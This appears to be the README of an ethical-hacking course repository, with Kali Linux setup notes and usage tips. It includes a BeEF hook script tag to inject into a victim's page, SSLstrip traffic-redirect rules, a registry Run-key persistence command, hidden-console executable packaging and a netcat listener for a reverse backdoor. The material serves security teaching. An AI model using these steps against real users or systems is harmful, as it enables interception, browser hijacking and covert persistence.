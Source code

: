 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Operating system

#### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

#### Windows
To add an executable to Windows Registry to make the file run on the system start, the following command can be used:  
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <name_of_reg> /t REG_SZ /d <"path_to_exe">`  

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

#### Packaging scripts into executables
In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to pyinstaller instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.  
* To package multiple files together with the Python script, use:  
`--add-data "abs/path/to/file;."`  
The dot means the file will be stored (after running) in a default temp directory.
Can be changed to directory of preference.  

If you need to create .exe file from a Linux machine (not recommended - it's better to do it natively),
you need a Python interpreter in it's Windows version. In order to do that, Wine is required
(should be installed by default on Kali Linux).  
After you've got both Python downloaded and Wine installed, type in the following command:  
`wine msiexec /i <python_installer_file>`  
* `msiexec` argument states that we are using a .msi file.  
* `/i` flag means that we want to install said file.  

After the Python installation has been completed, you can now run the interpreter in Windows version using:  
`wine python.exe -m pip install <library>` while in in `.wine/drive_c` and using `pyinstaller` as `<library>`.  
Just like on Windows, the pyinstaller can be found in `drive_c/PythonXX/Scripts` folder.  
Keep in mind that you need to have installed all the libraries your Python scripts use before you can package them.  
Similarly to Windows, in order to package the scripts, the following command needs to be typed in:  
`wine .wine/drive_c/PythonXX/Scripts/pyinstaller.exe <script_name.py> --onefile --noconsole`  
As you can see, this time we do type the whole path to `pyinstaller.exe`.  
<*I'm not sure if it's needed to, perhaps Wine can also simulate adding exe files to PATH.*>  
If you have multiple Python files used in your program, just remember to package the **main** file.
Pyinstaller will include imported libraries and files accordingly.  

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  
* You can find registries associated with running programs on system bootup in:  
`Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`.  


